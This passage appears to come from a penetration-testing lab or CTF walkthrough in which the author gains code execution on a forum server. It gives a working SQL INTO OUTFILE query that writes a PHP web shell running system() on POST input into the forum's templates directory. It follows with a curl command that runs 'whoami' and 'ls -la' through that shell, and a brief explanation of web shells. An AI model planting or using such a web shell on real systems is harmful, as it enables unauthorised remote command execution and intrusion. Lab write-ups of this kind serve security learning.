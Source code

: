 You might have noticed that the IP has changed. Don't worry—it's because I added another VM 
instance. I'll perform the process again, as I can no longer write to the previous one.

```sql
select "<?php echo 'Command: ' . $_POST['cmd'] . '\n'; system($_POST['cmd']);?>" into outfile "/var/www/forum/templates_c/backdoor.php";
```
![](./pics/43.png)

now I can do this

```sh
curl  "https://192.168.100.16/forum/templates_c/backdoor.php" --insecure  --data-urlencode  "cmd=whoami; echo; ls -la"
```

BTW this is called
**WebShell:** is just backdoor but for web related stuff, that will allow us th execute commands
on the system i.e remote code execution here's nice video about it
`https://www.youtube.com/watch?v=iPmXu8XoCTI`
